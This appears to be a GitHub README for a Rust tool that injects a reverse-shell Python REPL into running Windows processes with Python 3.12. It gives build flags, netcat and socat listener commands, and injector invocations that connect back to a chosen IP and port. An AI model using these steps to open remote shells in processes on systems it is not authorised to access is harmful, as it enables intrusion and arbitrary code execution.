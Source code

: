 # Python REPL Injector

A Rust-based tool for injecting a Python REPL into running processes that have Python 3.12 interpreter(s). The tool injects a reverse shell REPL into existing Python interpreters within the target process.

## Features

- Injects into existing Python 3.12 interpreters (no spawning)
- Supports multiple interpreters in a single process
- Clean and safe injection using Windows user-mode APIs
- Configurable connection parameters (IP and port)
- Works with DEP and high-entropy ASLR enabled targets

## Prerequisites

- Windows 11 with Administrator privileges
- Rust toolchain (stable)
- Target process must be running Python 3.12

## Building

Due to the nature of the injection process, we need to increase the stack size. Use the following commands to build and run:

```powershell
# Set increased stack size
$env:RUSTFLAGS="-C link-args=/STACK:16777216"

# Build the project
cargo build --release
```

## Usage

1. First, set up a listener on your machine. You can use either netcat or socat:

   Using netcat:
   ```powershell
   # Windows netcat
   nc -lvp 1337

   # Linux netcat
   nc -lvnp 1337
   ```

   Using socat (recommended for better stability):
   ```powershell
   # Windows
   socat TCP-LISTEN:1337,reuseaddr -

   # Linux
   socat TCP-LISTEN:1337,reuseaddr,fork -
   ```

2. Run the injector:

   ```powershell
   # Default settings (localhost:1337)
   cargo run --release -- --target exefile.exe

   # Custom IP and port
   cargo run --release -- --target exefile.exe --ip 192.168.1.100 --port 4444

   # Using process ID instead of name
   cargo run --release -- --target 1234
   ```

   Command line options:
   - `--target`: Process name or PID (default: "exefile.exe")
   - `--ip`: IP address to connect to (default: "127.0.0.1")
   - `--port`: Port number to connect to (default: 1337)

3. Once connected, you'll get a Python REPL in your listener. Features:
   - Multiline code support (send empty line to execute)
   - Full access to Python's standard library
   - Exception traceback reporting
   - Type 'exit' to close the connection

## Example Session

```python
# In your listener after successful injection:

# Simple command
print("Hello from injected process!")

# Multiline code (send empty line to execute)
def get_process_info():
    import os
    import sys
    return {
        'pid': os.getpid(),
        'python_version': sys.version,
        'cwd': os.getcwd()
    }

print(get_process_info())

# Exit the REPL
exit
```

## Security Considerations

- This tool requires Administrator privileges
- The connection is unencrypted - use only in controlled environments
- The injected code runs with the same privileges as the target process
- Be cautious when injecting into critical system processes

## Troubleshooting

1. If the connection fails:
   - Ensure your firewall allows the connection
   - Verify the target process is running and has Python 3.12
   - Check if another process is using the same port

2. If injection fails:
   - Verify you have Administrator privileges
   - Ensure the target process is not protected by security software
   - Check if the process has Python 3.12 loaded

## License

MIT License - See LICENSE file for details 